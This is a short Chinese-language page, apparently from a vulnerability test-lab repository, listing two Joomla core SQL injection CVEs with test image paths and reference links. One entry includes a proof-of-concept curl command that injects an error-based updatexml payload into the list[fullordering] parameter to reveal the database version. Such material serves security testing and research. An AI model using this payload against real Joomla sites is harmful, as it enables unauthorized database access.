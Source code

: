 ### CVE-2018-8045 - 后台 `filter[category_id]` SQL 注入漏洞

测试镜像

* src/joomla/3.8.3/

参考链接

* [【漏洞分析】Joomla内核SQL注入漏洞（CVE-2018-8045）分析](http://blog.nsfocus.net/cve-2018-804-analysis/)

### CVE-2017-8917 - com_fields fullordering 注入

测试镜像

* src/joomla/3.7.0/

参考链接

* [Joomla! 3.7 Core SQL Injection (CVE-2017-8917)](https://www.seebug.org/vuldb/ssvid-93113)

Poc

```
curl -g '127.0.0.1/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(2,concat(0x7e,(version())),0)' | grep XPATH
```

